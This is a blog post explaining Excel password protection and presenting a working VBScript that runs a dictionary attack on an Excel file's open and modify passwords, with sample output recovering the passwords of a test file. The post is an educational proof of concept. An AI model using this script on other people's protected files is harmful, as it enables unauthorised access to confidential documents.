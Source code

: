 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
categories: [Security]
---
```


![Logo](/assets/images/dictionary.jpg)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing [security of encryption algorithms](http://www.oraxcel.com/projects/encoffice/help/How_safe_is_Excel_encryption.html) for Excel spreadsheets. The bottom line is that:
* Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings.
* Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
* Encryption in Excel 95, 97 and 2000 is NOT secure at all :)

Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link. Another good reference on Excel 2007 Encryption Strength is [this discussion](https://security.stackexchange.com/questions/17702/excel-2007-encryption-strength).

## Setting password to open/modify
Changing/removing the **_password to open_** a file is pretty straight-forward in Excel 2007-2010: File menu->Info->Encrypt with password. 
I found that changing the **_password to modify_** is not so straight-forward. To set/remove a "read-only" password, from the _Save_ or _Save As_ dialog boxes, select _General Options_ from the _Tools_ drop-down menu to open the _General Options_ dialog box. There, in the _Password to modify box_, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small Visual Basic script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. I've used VB because it already had support for opening Excel and for passwords. It's good enough for a PoC. This could also be extended to something like the rules in [jtr](https://github.com/magnumripper/JohnTheRipper) to intelligently guess/brute-force passwords, possibly based on the very efficient [KoreLogic John rules](http://contest-2010.korelogic.com/rules.html). 

Currently it's just a proof of concept, and it's very slow, but it could be extended to use more threads or optimized:
```vb
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
```
## Usage

An example of how to use it on a test document with these 2 passwords set:
### 1. Find password to open:
```bash
> cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
```

### 2. Find password to modify: 
```bash
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper
```
